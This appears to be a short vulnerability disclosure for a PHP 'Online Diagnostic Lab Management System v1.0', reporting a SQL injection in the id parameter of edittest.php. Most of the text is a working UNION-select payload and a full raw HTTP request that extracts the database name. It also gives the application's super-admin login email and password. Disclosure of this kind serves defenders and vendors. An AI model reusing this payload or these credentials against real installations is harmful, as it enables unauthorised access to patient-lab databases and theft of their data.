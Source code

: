 # Online Diagnostic Lab Management System v1.0 by mayuri_k has SQL injection

BUG_Author: Via

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15667/online-diagnostic-lab-management-system-using-php-and-mysql-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /diagnostic/edittest.php?id=

Vulnerability location: /diagnostic/edittest.php?id=, id

dbname = diagnostic

[+] Payload: /diagnostic/edittest.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8,9--+ // Leak place ---> id

```sql
GET /diagnostic/edittest.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8,9--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=flklolh755oivesj89eu5fo2c7
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191400126-571c23b5-0295-4fe7-8e4b-441a5c71ca93.png)
